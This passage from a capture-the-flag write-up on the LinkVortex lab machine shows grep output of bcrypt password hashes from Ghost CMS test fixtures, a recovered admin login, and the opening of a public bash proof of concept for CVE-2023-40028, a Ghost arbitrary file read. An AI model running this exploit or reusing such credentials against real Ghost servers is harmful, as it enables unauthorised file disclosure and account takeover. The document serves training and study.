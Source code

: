 ```shell
ghost/core/test/utils/fixtures/filter-param/index.js:        password: '$2a$10$.pZeeBE0gHXd0PTnbT/ph.GEKgd0Wd3q2pWna3ynTGBkPKnGIKZL6',
ghost/core/test/utils/fixtures/filter-param/index.js:        password: '$2a$10$.pZeeBE0gHXd0PTnbT/ph.GEKgd0Wd3q2pWna3ynTGBkPKnGIKZL6'

ghost/core/test/utils/fixtures/export/v4_export.json:            "password": "$2a$10$GKFu8wxSXZNFF/cEmTE0/O1FZIz5uRGwlLmYKRicdCRR.bvBeBsJa",
ghost/core/test/utils/fixtures/export/v4_export.json:            "password": "$2a$10$bp1iRtUQ8GTbLyB/JMSXNuDB3ws9/3R8LrzGFvl5vrkO9rzdLRRru"

ghost/core/test/utils/fixtures/export/v3_export.json:            "password": "$2a$10$r0NpLiq8/.nzyxQrM96dI.JHyhx56MzsVv7xI6K4wzQDeR6gOAi3m"

ghost/core/test/utils/fixtures/export/v3_export.json:            "password": "$2a$10$2bT2p18W82Z7BXAkrUfD..wIzN0kMKbgQrhCUg4d7t15QKof6z3qm"

ghost/core/test/utils/fixtures/export/valid.json:                        "password": "$2a$10$.pZeeBE0gHXd0PTnbT/ph.GEKgd0Wd3q2pWna3ynTGBkPKnGIKABC",

we check if the password is a bcrypt hash already and fall back to

mysql root password: 'root'
```

![](Pasted%20image%2020250129184013.png)

I tried multiple combinations with all the previous passwords and emails and got some creds after a wild: `admin@linkvortex.htb:OctopiFociPilfer45`:

![](Pasted%20image%2020250129184903.png)

![](Pasted%20image%2020250129185057.png)

## Weaponization

I found the following PoC searching for "*ghost 5.58 exploit*" in [synk.io](https://security.snyk.io/vuln/SNYK-JS-GHOST-5843513):
- [CVE-2023-40028](https://github.com/0xyassine/CVE-2023-40028)

```shell
#!/bin/bash

# Exploit Title: Ghost Arbitrary File Read
# Date: 10-03-2024
# Exploit Author: Mohammad Yassine
# Vendor Homepage: https://ghost.org/
# Version: BEFORE [ 5.59.1 ]
# Tested on: [ debian 11 bullseye ghost docker image ]
# CVE : CVE-2023-40028

#THIS EXPLOIT WAS TESTED AGAINST A SELF HOSTED GHOST IMAGE USING DOCKER

#GHOST ENDPOINT
GHOST_URL='http://linkvortex.htb'
GHOST_API="$GHOST_URL/ghost/api/v3/admin/"
API_VERSION='v3.0'

PAYLOAD_PATH="`dirname $0`/exploit"
PAYLOAD_ZIP_NAME=exploit.zip

# Function to print usage
function usage() {
  echo "Usage: $0 -u username -p password"
```